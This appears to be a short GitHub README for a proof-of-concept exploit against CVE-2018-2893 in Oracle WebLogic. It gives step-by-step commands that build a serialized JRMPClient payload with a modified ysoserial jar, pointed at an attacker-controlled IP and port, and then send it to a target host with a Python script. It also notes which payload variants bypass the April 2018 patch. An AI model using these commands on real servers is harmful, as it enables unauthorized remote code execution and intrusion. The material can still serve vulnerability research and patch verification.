 # CVE-2018-2893

## Step 1

`java -jar ysoserial-cve-2018-2893.jar`

```
WHY SO SERIAL?
Usage: java -jar ysoserial-cve-2018-2893.jar [payload] '[command]'
Available payload types:
     Payload     Authors   Dependencies
     -------     -------   ------------
     JRMPClient  @mbechler
     JRMPClient2 @mbechler
     JRMPClient3 @mbechler
     JRMPClient4 @mbechler
     Jdk7u21     @frohoff
```

## Step 2

`java -jar ysoserial-cve-2018-2893.jar  JRMPClient4  "[IP]:[PORT]"  >  poc4.ser`

## Step 3

`python weblogic.py [HOST] [PORT] poc4.ser`


### Note: Any one of  JRMPClient2|JRMPClient3|JRMPClient4 can be utilized to  bypass the Critical Patch Update April 2018.


